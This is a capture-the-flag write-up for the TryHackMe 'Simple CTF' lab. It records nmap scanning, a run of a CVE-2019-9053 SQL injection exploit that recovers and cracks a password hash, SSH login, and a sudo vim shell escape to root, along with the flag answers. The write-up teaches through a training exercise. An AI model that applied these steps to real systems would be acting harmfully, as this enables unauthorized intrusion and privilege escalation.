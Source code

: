 # Simple CTF

```
export ip=10.10.208.204
```

# 1. How many services are running under port 1000?


```
run nmap scan on machine using -sC -sV 
```
```
nmap -sC -sV -oN nmap/initial 10.10.208.204
```


```
answer: 2
```

# 2. What is running on the higher port?

```
we will use -p 0-9999 to specify scan ports from 0 to 9999 in nmap
```

```nmap -p 0-9999 -oN nmap/all_ports 10.10.208.204
I ftp into 10.10.208.204 and found ForMitch.txt and grabbed it to my host using get
```

```
answer: ssh
```

# 3. What's the CVE you're using against the application? 

```
searched for exploits against the web servers host template version (2.2.8) and found CVE-2019-9053
```

```
answer: CVE-2019-9053
```

# 4. To what kind of vulnerability is the application vulnerable?

```
the exploit was a SQL Injection and since tryhackme states the answer is 4 letters it should be SQLi
```

```
answer: SQLi
```

# 5. What's the password?

```
we run the python exploit and specify the rhosts and using --crack we will attempt to crack the password using a wordlist in this case best110.txt
```

```python3 exploit.py -u http://10.10.208.204/simple --crack -w /thm/best110.txt 
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

```
answer: secret
```

# 6. Where can you login with the details obtained?

```
answer: ssh
```

# 7. What's the user flag?

```
we can run find / -name user* 2>/dev/null to search the computer for the flag if its not located in the home directory otherwise we can cat the file when found. cat /home/mitch/user.txt
```

```
Answer:"G00d j0b, keep up!"
```

# 8. Is there any other user in the home directory? What's its name?

```
if we cd ../ to go back to the parent directory we can see a user folder of someone named "sunbath"
```

```
Answer: sunbath
```

# 9. What can you leverage to spawn a privileged shell?

```
the first thing i do when im attempting to privesc is running sudo -l to see what im able to run as root. in this case we can run /usr/bin/vim as sudo without needing a password. using gtfobins we can see that using vim we can spawn a shell however because this box doesnt need a password for sudo vim we can spawn and leverage this vulnerability.
```

```
Answer: vim
```

# 10. What's the root flag?

```
running sudo vim -c ':!/bin/sh' will now give us root privilidges on the system due to the user "mitch" being able to run vim as sudo without a password. root flags are usually stored in /root however if not we can always use find to search for the file. In this cate the flag is stored in /root/root.txt so lets cat the file and finish the box!
```

```
Answer: W3ll d0n3. You made it!
```

```json
Congrats u have completed Simple CTF!
```